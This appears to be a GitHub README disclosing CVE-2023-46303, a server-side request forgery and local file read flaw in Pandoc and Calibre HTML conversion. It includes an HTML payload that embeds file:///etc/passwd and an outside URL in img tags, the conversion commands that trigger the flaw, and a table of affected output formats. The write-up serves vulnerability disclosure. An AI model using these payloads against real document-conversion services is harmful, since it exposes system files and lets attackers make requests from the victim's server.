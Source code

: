 # :bee: CVE-2023-46303
## SSRF Vulnerability in PANDOC and CALIBRE
### UPDATE ->
#### https://nvd.nist.gov/vuln/detail/CVE-2023-46303
#### https://security.snyk.io/vuln/SNYK-DEBIAN13-CALIBRE-6027875
-
-
-
-
- 
## :mushroom: PANDOC

### :spider_web: https://github.com/jgm/pandoc (Pandoc in Github)
- What is Pandoc?
- Pandoc is a Universal Markup Converter

[![Star History Chart](https://api.star-history.com/svg?repos=jgm/pandoc)](https://star-history.com/#jgm/pandoc)
---
-
-
-
-
## :mushroom: CALIBRE

### :spider_web: https://github.com/kovidgoyal/calibre (Calibre in Github)
- What is Calibre?
- The official source code repository for the calibre ebook manager

[![Star History Chart](https://api.star-history.com/svg?repos=kovidgoyal/calibre&type=Date)](https://star-history.com/#kovidgoyal/calibre)
---
-
-
-
-

## For Example
+ ### We install both applications on a linux computer and create a test file with html

### :lady_beetle: ssrf.html
+ `<img src="file:///etc/passwd">`
+ `<img src="http://ip-api.com/csv">`
+ ![ssrf.html](img/0x1.png "ssrf.html")

## Where does the vulnerability occur and how is it triggered?
+ When we want to convert an html file to a different document via terminal, we use the following command.
+ `$ pandoc ssrf.html -o ssrf.epub` PANDOC
+ `$ ebook-convert ssrf.html ssrf.epub` CALIBRE

## SSRF via Converter (Example is PANDOC but you can also try CALIBRE)
+ `$ pandoc ssrf.html -o ssrf.epub` PANDOC
+ ![0x2.png](img/0x2.png "0x2.png")
+ ![0x3.png](img/0x3.png "0x3.png")
+ After the html file is successfully converted to epub file, you need to open this epub file with "Archive Manager"
+ When we check the folders and subfolders in the epub file we opened with "Archive Manager", we will see one or two different files. When we open these files, we can see that the ssrf vulnerability is triggered.
+ ![0x4.png](img/0x4.png "0x4.png")
+ ![0x5.png](img/0x5.png "0x5.png")
+ ![0x6.png](img/0x6.png "0x6.png")
+ ![0x7.png](img/0x7.png "0x7.png")
+ ![0x8.png](img/0x8.png "0x8.png")

---
-
-
-
-

+ I went through all converter processes in pandoc and calibre and found that this vulnerability exists in multiple converters.
+ In the table below, you can examine what types of ssrf are in which files.
+ You can also use the iframe tag instead of the img tag in calibre.

| PANDOC | EPUB | ODT | DOCX | PPTX | FB2 |
| --- | --- | --- | --- | --- | --- |
`<img src="file:///etc/passwd">` | :heavy_check_mark: | :heavy_check_mark: | :x: | :heavy_check_mark: | :x:
`<img src="http://ip-api.com/csv">` | :heavy_check_mark: | :heavy_check_mark: | :heavy_check_mark: | :x: | :heavy_check_mark: (Base64 Encoded)

| CALIBRE | EPUB |
| --- | --- |
`<img src="file:///etc/passwd">` | :heavy_check_mark: |
`<img src="http://ip-api.com/csv">` | :x: |

+ In the example, we converted our html file to epub, but as you can see in the table above, we can see that the vulnerability is triggered not only when converting to epub but also other files.
---
-
-
-
-

> #### Created by 0x1717 aka GYG3S
